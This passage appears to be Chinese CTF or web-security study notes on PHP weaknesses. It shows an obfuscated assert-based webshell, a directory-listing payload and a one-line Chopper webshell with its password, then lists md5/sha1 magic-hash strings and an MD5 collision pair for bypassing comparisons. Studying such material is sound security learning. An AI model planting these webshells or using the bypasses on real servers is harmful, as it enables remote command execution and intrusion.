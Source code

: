 

#### 2.assert（命令执行）

PHP中的assert可以用来执行PHP函数，进而进行getshell等操作，比如我们利用如下代码进行目录扫描

```php
<?php 
$poc = "a#s#s#e#r#t";
$poc_1 = explode("#", $poc);$poc_2 = $poc_1[0] . $poc_1[1] . $poc_1[2] . $poc_1[3] . $poc_1[4] . $poc_1[5];
$poc_2($_GET['s'])
?>
```

payload `s=print_r(scandir('./'));`

```php
#assert函数是直接将传入的参数当成PHP代码直接，不需要以分号结尾，当然你加上也可以。
#命令執行：cmd=system(whoami)
#菜刀连接密码：cmd
<?php @assert($_POST['cmd'])?>
```





#### 3.md5&sha1&md4

PHP中的md5和sha1函数存在两个问题，第一是他们处理数组都返回null；第二在弱类型条件下他们会认为如下的返回值相同

```php
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
sha1(str)
sha1('aaroZmOk')  
sha1('aaK1STfY')
sha1('aaO8zKZF')
sha1('aa3OFF9m')
```

注意：如果使用了md5并且是强相等，那么找到数据对应md5相同的值即可，在此给出一组某强网杯使用过的数据

```php
$Param1="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x00\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\x55\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
$Param2="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x02\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\xd5\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
#008ee33a9d58b51cfeb425b0959121c9
```


